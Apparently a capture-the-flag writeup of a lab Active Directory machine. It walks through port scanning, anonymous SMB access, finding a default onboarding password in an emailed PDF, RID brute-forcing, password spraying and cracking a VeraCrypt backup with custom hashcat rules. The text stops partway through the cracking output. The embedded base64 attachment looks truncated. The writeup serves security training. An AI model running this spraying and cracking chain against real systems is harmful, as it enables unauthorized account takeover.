




# Phantom - Active Directory Writeup

Date: 30 July 2026 \
Difficulty: Medium \
OS: Windows Server 2022 \
Domain: phantom.vl \
IP Address: 10.129.234.63 \
Pentester:RavenHex 



## Introduction

Phantom is an Active Directory machine that starts with a fairly standard external enumeration of a Domain Controller, but the path to a foothold runs through a chain of small, easy-to-miss details: an email left on an anonymous SMB share, a PDF attachment with a default password policy, a guest account that still had that default password set, and a VeraCrypt-encrypted backup with a crackable passphrase. Once inside, the privilege escalation path uses `ForceChangePassword`, Resource-Based Constrained Delegation (RBCD), and finally DCSync to go from a low-privileged service account all the way to Domain Admin.

This writeup documents the full process end to end: reconnaissance, credential discovery, initial foothold, and the complete privilege escalation chain, along with the theory behind each technique used.

---

## Reconnaissance

### Full TCP Port Scan

We started with a full TCP SYN scan across all 65535 ports to make sure nothing was missed.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.234.63
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-30 10:07 +0000
Nmap scan report for 10.129.234.63
Host is up (0.36s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
53582/tcp open  unknown
53583/tcp open  unknown
53590/tcp open  unknown
62251/tcp open  unknown
62276/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 27.34 seconds
```

This is a very typical Active Directory Domain Controller port spread: Kerberos (88), LDAP (389/636/3268/3269), SMB (139/445), RPC (135 and a range of high ports), RDP (3389), WinRM (5985), and the ADWS service (9389). There is no web port open, which tells us this box is purely AD/SMB focused - enumeration is going to revolve around SMB and LDAP rather than a web application.

### Service and Version Detection

Next we ran a targeted service/version scan with default scripts against exactly the ports we found open, to get banner and version information plus any useful NSE script output (like `rdp-ntlm-info` and `smb2-security-mode`).

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49668,53582,53583,53590,62251,62276 -Pn 10.129.234.63
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-30 10:09 +0000
Nmap scan report for 10.129.234.63
Host is up (0.42s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-30 06:05:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: PHANTOM
|   NetBIOS_Domain_Name: PHANTOM
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: phantom.vl
|   DNS_Computer_Name: DC.phantom.vl
|   DNS_Tree_Name: phantom.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-30T06:06:34+00:00
|_ssl-date: 2026-07-30T06:07:15+00:00; -4h04m00s from scanner time.
| ssl-cert: Subject: commonName=DC.phantom.vl
| Not valid before: 2026-07-29T05:17:37
|_Not valid after:  2027-01-28T05:17:37
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
53582/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
53583/tcp open  msrpc         Microsoft Windows RPC
53590/tcp open  msrpc         Microsoft Windows RPC
62251/tcp open  msrpc         Microsoft Windows RPC
62276/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-30T06:06:35
|_  start_date: N/A
|_clock-skew: mean: -4h03m59s, deviation: 0s, median: -4h04m00s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.06 seconds
```

This detailed scan reveals a lot of useful information for further enumeration. The `rdp-ntlm-info` script leaks the domain name, NetBIOS name, and full DNS computer name without any authentication at all - `DC.phantom.vl` in the `phantom.vl` domain. It also reveals the server time (`2026-07-30 06:05:34Z`), which is important: in Active Directory, Kerberos is time-sensitive, and if our attacking machine's clock is skewed too far from the DC's clock, Kerberos authentication will fail. The scan actually shows a clock skew of about -4h04m, which we need to keep in mind (and correct with `ntpdate` or `faketime` if Kerberos operations start failing later on).

**Key Findings:**

- **Domain:** phantom.vl
- **Hostname:** DC.phantom.vl
- **OS:** Windows Server 2022 (Build 20348)
- **SMB Signing:** Enabled and required (hardened)
- **Time Skew:** ~-4h04m (needs to be accounted for during Kerberos operations)

---

## SMB Enumeration

Since there is no web service on this box, SMB is the most obvious next step - misconfigured shares on a DC frequently leak far more than they should.

### Listing Shares Anonymously

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L //10.129.234.63 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Departments Share Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.234.63 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Null-session SMB enumeration is possible here, which already tells us anonymous/guest access is not fully locked down. Beyond the default administrative shares (`ADMIN$`, `C$`, `IPC$`), there are four shares worth looking at:

- **Departments Share** - likely holds department-specific files: documents, spreadsheets, or configuration files that might contain credentials.
- **Public** - a general-purpose share. Often used for sharing files across the whole organization, and people frequently drop things here that shouldn't be public.
- **NETLOGON** - holds logon scripts that execute when users log in. These sometimes contain hardcoded credentials or paths to other resources.
- **SYSVOL** - one of the most valuable shares for an initial foothold on any AD environment. It replicates Group Policy Objects (GPOs), logon scripts, and historically `Groups.xml` files (the source of the classic GPP `cpassword` vulnerability, where passwords were "encrypted" with a publicly known static AES key).

We attempted to browse `Departments Share`, `NETLOGON`, and `SYSVOL` directly but were denied - anonymous/guest access doesn't have listing rights on those. `Public`, however, was accessible.

### The Public Share

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient //10.129.234.63/Public -N -c "ls"
  .                                   D        0  Thu Jul 11 15:03:14 2024
  ..                                DHS        0  Thu Aug 14 11:55:49 2025
  tech_support_email.eml              A    14565  Sat Jul  6 16:08:43 2024

   6127103 blocks of size 4096. 2388909 blocks available
```

A single file: `tech_support_email.eml`. An `.eml` file is a raw email export - exactly the kind of thing that can contain support ticket contents, internal communications, or attachments with sensitive information. We grabbed it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient //10.129.234.63/Public -N -c "get tech_support_email.eml"
```

### Reading the Email

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat tech_support_email.eml

Content-Type: multipart/mixed; boundary="===============6932979162079994354=="
MIME-Version: 1.0
From: alucas@phantom.vl
To: techsupport@phantom.vl
Date: Sat, 06 Jul 2024 12:02:39 -0000
Subject: New Welcome Email Template for New Employees

--===============6932979162079994354==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

Dear Tech Support Team,

I have finished the new welcome email template for onboarding new employees.

Please find attached the example template. Kindly start using this template for all new employees.

Best regards,
Anthony Lucas
    
--===============6932979162079994354==
Content-Type: application/pdf
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="welcome_template.pdf"

JVBERi0xLjcKJcOkw7zDtsOfCjIgMCBvYmoKPDwvTGVuZ3RoIDMgMCBSL0ZpbHRlci9GbGF0ZURl
Y29kZT4+CnN0cmVhbQp4nI1Vy4rcMBC8+yt0zsFTXZYsGcyAJY8hgT0sGcgh5LBksyE5LGRYyO+H
bnsfM7OeyckvSdVV1dVGLe5vtRkOT78e7r4/uXxTqj8ODjWYXCtSd1Fc7Obr4Uf15YN7rHY3pdp8
frp7vL873Pf95qZ8HB222zwuux3c4WeV91Vo6+SioPbB7e/dZhIndPuHrz1kK7EH0cAjoAURkRAQ
0WFARrGnFuP22/5TtdtXt+/jyipum1inY9weOxAZE6JARCiNeAnb/e8LCFxHCKHmKrNoQHqltPCi
/CjpheeALJ1+lwFBMiICCqIUBN0pSa5xb9YrY6zbE+6yM7mDTK+lLdCqRyZAvYPXb5JANUF0bUNQ
Lqvk12sBapzUQi5oBVnNp6gjJBvx9P/rTFjFDKk9daZHh0wQMiGovIqpzUaVPbFFy8iExIAJCeNl
7HYdO6Qz7dGh0c4z1lFdYIcoUQ2f2+HVCWR4DYXMITBndKXuQMIALqe865OMiByUIaKt83qqNp8M
iOa6VhFQCGZEsT4gkDDZ2w6NrrzMPq6z9/48dYoxx1yDXpYQaMzTm/b3c/DZHXcmy7FvppudJDNr
VcBqRuZoT9PR/lEiJmO4KK9qyhV/0zpDiWe9xR3HN0xeoq18tDJOks03rdi0t7ir2wVcxsLMcvZC
vfegOsRRV6Cxu8nun0eIuWm6RUN+HS7P3CGZhQVzT9sIssTNul1xuVvXAM3pTO/tbI/hGJPq35uB
LqN0aC7jyvrPxMdw1l462BZ7J5DdPD21va/ArP87fMvTmfW1b6DhO/tDRZ33DbYi6Gd1j8f2rfsH
gCembQplbmRzdHJlYW0KZW5kb2JqCgozIDAgb2JqCjYxNwplbmRvYmoKCjE2IDAgb2JqCjw8L0xl
bmd0aCAxNyAwIFIvRmlsdGVyL0ZsYXRlRGVjb2RlL0xlbmd0aDEgODQwOD4+CnN0cmVhbQp4nN1Z
eVwT1/Y/d5ZEXNAIAawsE8JeCEpYCrZYbF1wAQUEtXUJyUCiIZNmBhStYtyq1qWuffiQ1rWWp9Za
1Grrvis+tetr7etml9/zWWut7WuBDL/PvTMg2uXze//+kHxy5t5zzz3nfL/n3DsoeSp56ApzgQbO
WmFxx2WZOADYCYB6lzury85W7l8AgI4B9Dxm5y22N4Q12QC6uQCQbrfzlknyFC2A7k0AiLJXSDM+
Cfj1JIDuEwA45RSslkOTm8YA9H4ZAGwVlhnuyZAJAAEMAHAuSwV/5MOrcQABUQA9lrgFUVoPCW0A
3B487/bw7kXLNHYA7goAaAEAAQL80x0AafAzRTOsRtvFr2u37j38e/bS9Q4I1AcFh/R5qG9oWHgE
Z4g0RkXHxMbFJzycmGRK7gf/734ouATAprBeoHGGkM6gCzDoDGxKy19H0pdazay3uYb1Nl9k/oWz
5wegXcR6wQCAaCMyB4Sj4Gwqo0MIMCMjbUKx/hTt/ekr2XLWFxwf0KVveHcEB34KTezV0xCmaTkr
W376t14e0KVveHcEB34KTezV0xCmaTkr

--===============6932979162079994354==--
```


The mail itself is unremarkable - Anthony Lucas (`alucas@phantom.vl`) sending Tech Support a new employee welcome-email template. But the attachment (`welcome_template.pdf`) is exactly the kind of document that can leak onboarding conventions: default usernames, default passwords, and domain policy.

### Extracting and Reading the PDF

We decoded the base64 blob back into a real PDF file and opened it.



The PDF contains the default welcome credentials given to every new employee at Phantom:

```
Username: <USERNAME>
Password: Ph4nt0m@5t4rt!
```

This is huge. The `<USERNAME>` placeholder confirms that **every new account is provisioned with the exact same default password**, and users are expected to change it on first login. In practice, on a large enough domain, some employees never get around to changing it. We now have a *valid password pattern*: `Ph4nt0m@5t4rt!`.

We also already had one confirmed username from the email header: `alucas` (Anthony Lucas).

---

## User Enumeration via RID Brute-Forcing

The `Departments Share` exists but its subfolders (`IT`, `HR`, `Admin`) are restricted to authenticated users. Before we can go further we need more usernames to spray the default password against. Since SMB allows a null session, we can RID-brute the domain via SAMR to walk the full list of SIDs and resolve them to account names.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ netexec smb 10.129.234.63 -u guest -p '' --rid-brute
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\guest:
SMB         10.129.234.63   445    DC               498: PHANTOM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               500: PHANTOM\Administrator (SidTypeUser)
SMB         10.129.234.63   445    DC               501: PHANTOM\Guest (SidTypeUser)
SMB         10.129.234.63   445    DC               502: PHANTOM\krbtgt (SidTypeUser)
SMB         10.129.234.63   445    DC               512: PHANTOM\Domain Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               513: PHANTOM\Domain Users (SidTypeGroup)
SMB         10.129.234.63   445    DC               514: PHANTOM\Domain Guests (SidTypeGroup)
SMB         10.129.234.63   445    DC               515: PHANTOM\Domain Computers (SidTypeGroup)
SMB         10.129.234.63   445    DC               516: PHANTOM\Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               517: PHANTOM\Cert Publishers (SidTypeAlias)
SMB         10.129.234.63   445    DC               518: PHANTOM\Schema Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               519: PHANTOM\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               520: PHANTOM\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.63   445    DC               521: PHANTOM\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               522: PHANTOM\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.63   445    DC               525: PHANTOM\Protected Users (SidTypeGroup)
SMB         10.129.234.63   445    DC               526: PHANTOM\Key Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               527: PHANTOM\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               553: PHANTOM\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.63   445    DC               571: PHANTOM\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.63   445    DC               572: PHANTOM\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.63   445    DC               1000: PHANTOM\DC$ (SidTypeUser)
SMB         10.129.234.63   445    DC               1101: PHANTOM\DnsAdmins (SidTypeAlias)
SMB         10.129.234.63   445    DC               1102: PHANTOM\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.63   445    DC               1103: PHANTOM\svc_sspr (SidTypeUser)
SMB         10.129.234.63   445    DC               1104: PHANTOM\TechSupports (SidTypeGroup)
SMB         10.129.234.63   445    DC               1105: PHANTOM\Server Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               1106: PHANTOM\ICT Security (SidTypeGroup)
SMB         10.129.234.63   445    DC               1107: PHANTOM\DevOps (SidTypeGroup)
SMB         10.129.234.63   445    DC               1108: PHANTOM\Accountants (SidTypeGroup)
SMB         10.129.234.63   445    DC               1109: PHANTOM\FinManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1110: PHANTOM\EmployeeRelations (SidTypeGroup)
SMB         10.129.234.63   445    DC               1111: PHANTOM\HRManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1112: PHANTOM\rnichols (SidTypeUser)
SMB         10.129.234.63   445    DC               1113: PHANTOM\pharrison (SidTypeUser)
SMB         10.129.234.63   445    DC               1114: PHANTOM\wsilva (SidTypeUser)
SMB         10.129.234.63   445    DC               1115: PHANTOM\elynch (SidTypeUser)
SMB         10.129.234.63   445    DC               1116: PHANTOM\nhamilton (SidTypeUser)
SMB         10.129.234.63   445    DC               1117: PHANTOM\lstanley (SidTypeUser)
SMB         10.129.234.63   445    DC               1118: PHANTOM\bbarnes (SidTypeUser)
SMB         10.129.234.63   445    DC               1119: PHANTOM\cjones (SidTypeUser)
SMB         10.129.234.63   445    DC               1120: PHANTOM\agarcia (SidTypeUser)
SMB         10.129.234.63   445    DC               1121: PHANTOM\ppayne (SidTypeUser)
SMB         10.129.234.63   445    DC               1122: PHANTOM\ibryant (SidTypeUser)
SMB         10.129.234.63   445    DC               1123: PHANTOM\ssteward (SidTypeUser)
SMB         10.129.234.63   445    DC               1124: PHANTOM\wstewart (SidTypeUser)
SMB         10.129.234.63   445    DC               1125: PHANTOM\vhoward (SidTypeUser)
SMB         10.129.234.63   445    DC               1126: PHANTOM\crose (SidTypeUser)
SMB         10.129.234.63   445    DC               1127: PHANTOM\twright (SidTypeUser)
SMB         10.129.234.63   445    DC               1128: PHANTOM\fhanson (SidTypeUser)
SMB         10.129.234.63   445    DC               1129: PHANTOM\cferguson (SidTypeUser)
SMB         10.129.234.63   445    DC               1130: PHANTOM\alucas (SidTypeUser)
SMB         10.129.234.63   445    DC               1131: PHANTOM\ebryant (SidTypeUser)
SMB         10.129.234.63   445    DC               1132: PHANTOM\vlynch (SidTypeUser)
SMB         10.129.234.63   445    DC               1133: PHANTOM\ghall (SidTypeUser)
SMB         10.129.234.63   445    DC               1134: PHANTOM\ssimpson (SidTypeUser)
SMB         10.129.234.63   445    DC               1135: PHANTOM\ccooper (SidTypeUser)
SMB         10.129.234.63   445    DC               1136: PHANTOM\vcunningham (SidTypeUser)
SMB         10.129.234.63   445    DC               1137: PHANTOM\SSPR Service (SidTypeGroup)
```

**Why this works:** even though we have no valid credentials, a guest/null SMB session can still query the SAMR (Security Account Manager Remote) interface to enumerate well-known and incremental RIDs (Relative IDs). Since the domain SID is fixed, walking RIDs sequentially reveals every user and group object, authenticated or not. This gave us a full list of ~35 usernames to spray against.

---

## Password Spraying the Default Password

With a full user list and a known default password pattern (`Ph4nt0m@5t4rt!`), we sprayed it across the domain.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc smb 10.129.234.63 -u phantom -p 'Ph4nt0m@5t4rt!' 

SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\phantom:Ph4nt0m@5t4rt! (Guest)
```

The `(Guest)` tag means this particular account only maps to guest privileges - low value, but it confirms authentication is happening. Even with guest-level access we can:

- Access SMB shares that require *any* authenticated session (as opposed to a fully anonymous one)
- Enumerate domain users and groups more thoroughly via LDAP
- Use RPC endpoints for further enumeration
- Test WinRM access

Continuing to spray the full user list against `Ph4nt0m@5t4rt!`, we found a real account that still had it set:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nxc smb 10.129.234.63 -u ibryant -p 'Ph4nt0m@5t4rt!'
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
```

`ibryant` is a genuine domain user account (not flagged `(Guest)`), and it never had its default onboarding password changed. This is our real foothold credential.

---

## Discovering the Encrypted IT Backup

With valid domain credentials for `ibryant`, we could finally browse `Departments Share` and its subfolders.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient //10.129.234.63/"Departments Share" -U ibryant%'Ph4nt0m@5t4rt!' -c "cd IT;ls"
  .                                   D        0  Thu Jul 11 14:59:02 2024
  ..                                  D        0  Sat Jul  6 16:25:31 2024
  Backup                              D        0  Sat Jul  6 18:04:34 2024
  mRemoteNG-Installer-1.76.20.24615.msi      A 43593728  Sat Jul  6 16:14:26 2024
  TeamViewerQS_x64.exe                A 32498992  Sat Jul  6 16:26:59 2024
  TeamViewer_Setup_x64.exe            A 80383920  Sat Jul  6 16:27:15 2024
  veracrypt-1.26.7-Ubuntu-22.04-amd64.deb      A  9201076  Sun Oct  1 20:30:37 2023
  Wireshark-4.2.5-x64.exe             A 86489296  Sat Jul  6 16:14:08 2024
```

The `IT` folder is full of common admin tooling installers - mRemoteNG, TeamViewer, Wireshark - and, notably, a VeraCrypt `.deb` installer package. VeraCrypt is free, open-source disk/container encryption software. Its presence hints that somewhere on this share there's an encrypted `.hc` container volume, and that guess pays off with the `Backup` subfolder:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient //10.129.234.63/"Departments Share" -U ibryant%'Ph4nt0m@5t4rt!' -c "cd IT/Backup;ls"
  .                                   D        0  Sat Jul  6 18:04:34 2024
  ..                                  D        0  Thu Jul 11 14:59:02 2024
  IT_BACKUP_201123.hc                 A 12582912  Sat Jul  6 18:04:14 2024
```

`IT_BACKUP_201123.hc` - the `.hc` extension is the signature of a VeraCrypt encrypted container. We pulled it down:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cp /mnt/phantom/departments/IT/Backup/IT_BACKUP_201123.hc ~/Desktop/Phantom/Extra/
```

---

## Cracking the VeraCrypt Container

### Theory

A VeraCrypt volume header is encrypted with a key derived from the user's password (via PBKDF2 with a very large number of iterations, which is *why* VeraCrypt cracking is slow even on capable hardware). Hashcat mode `13722` targets VeraCrypt SHA512 + XTS 1024-bit (the legacy default cipher/hash combination), and only needs the first 512 bytes of the container (the encrypted header) to attempt a crack - not the whole multi-gigabyte volume.

The HTB machine info hinted at the password pattern directly: *"Should you need to crack a hash, use a short custom wordlist based on company name & simple mutation rules commonly seen in real life passwords (e.g. year & a special character)."* Combined with the filename `IT_BACKUP_201123.hc` (which reads like a date), the obvious guess is some variation of `Phantom` + a year + a special character.

### Building the Rule Set

We wrote a custom Hashcat rules file to generate common real-world password mutations (capitalization, leet-speak substitutions, and appended years with special characters) from a single base word.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat > phantom_rules.rule << 'EOF'
# Basic transformations
:
l
u
c
C

# Add common years at the end (2020-2025)
$2$0$2$5
$2$0$2$4
$2$0$2$3
$2$0$2$2
$2$0$2$1
$2$0$2$0

# Add years with common special characters (2020-2025)
$2$0$2$5$!
$2$0$2$4$!
$2$0$2$3$!
$2$0$2$2$!
$2$0$2$1$!
$2$0$2$0$!
$2$0$2$5$@
$2$0$2$4$@
$2$0$2$3$@
$2$0$2$2$@
$2$0$2$1$@
$2$0$2$0$@
$2$0$2$5$#
$2$0$2$4$#
$2$0$2$3$#
$2$0$2$2$#
$2$0$2$1$#
$2$0$2$0$#
$2$0$2$5$$
$2$0$2$4$$
$2$0$2$3$$
$2$0$2$2$$
$2$0$2$1$$
$2$0$2$0$$

# Capitalize first letter + years + special chars (2020-2025)
c $2$0$2$5$!
c $2$0$2$4$!
c $2$0$2$3$!
c $2$0$2$2$!
c $2$0$2$1$!
c $2$0$2$0$!

# All uppercase + years + special chars (2020-2025)
u $2$0$2$5$!
u $2$0$2$4$!
u $2$0$2$3$!
u $2$0$2$2$!
u $2$0$2$1$!
u $2$0$2$0$!

# Leet speak variations
sa4 $2$0$2$5$!
sa4 $2$0$2$4$!
sa4 $2$0$2$3$!
sa4 $2$0$2$2$!
sa4 $2$0$2$1$!
sa4 $2$0$2$0$!

sa@ $2$0$2$5$!
sa@ $2$0$2$4$!
sa@ $2$0$2$3$!
sa@ $2$0$2$2$!
sa@ $2$0$2$1$!
sa@ $2$0$2$0$!

so0 $2$0$2$5$!
so0 $2$0$2$4$!
so0 $2$0$2$3$!
so0 $2$0$2$2$!
so0 $2$0$2$1$!
so0 $2$0$2$0$!

# Combined leet
sa4 so0 $2$0$2$5$!
sa4 so0 $2$0$2$4$!
sa4 so0 $2$0$2$3$!
sa4 so0 $2$0$2$2$!
sa4 so0 $2$0$2$1$!
sa4 so0 $2$0$2$0$!

c sa4 so0 $2$0$2$5$!
c sa4 so0 $2$0$2$4$!
c sa4 so0 $2$0$2$3$!
c sa4 so0 $2$0$2$2$!
c sa4 so0 $2$0$2$1$!
c sa4 so0 $2$0$2$0$!

# Short years (20-25)
$2$5$!
$2$4$!
$2$3$!
$2$2$!
$2$1$!
$2$0$!
EOF
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ echo "Phantom" > wordlist.txt
```

Applying the ruleset to the single word `Phantom` expanded it into 438 candidate passwords:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat --stdout -r phantom_rules.rule wordlist.txt > phantom_passwords.txt
```

```
438 phantom_passwords.txt
```

### Extracting the Header and Cracking

```
┌──(kali㉿kali)-[~/Downloads]
└─$ dd if=IT_BACKUP_201123.hc of=veracrypt.hash bs=512 count=1
1+0 records in
1+0 records out
512 bytes copied, 5.3207e-05 s, 9.6 MB/s
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ hashcat -m 13722 -a 0 veracrypt.hash wordlist.txt -r phantom_rules.rule
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-10850H CPU @ 2.70GHz, 6859/13719 MB (2048 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 128

Hashes: 1 digests; 1 unique digests, 1 unique salts
Rules: 438

Approaching final keyspace - workload adjusted.           

veracrypt.hash:Phantom2023!                               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13722 (VeraCrypt SHA512 + XTS 1024 bit (legacy))
Hash.Target......: veracrypt.hash
Time.Started.....: Thu Jul 30 08:06:56 2026 (30 secs)
Time.Estimated...: Thu Jul 30 08:07:26 2026 (0 secs)
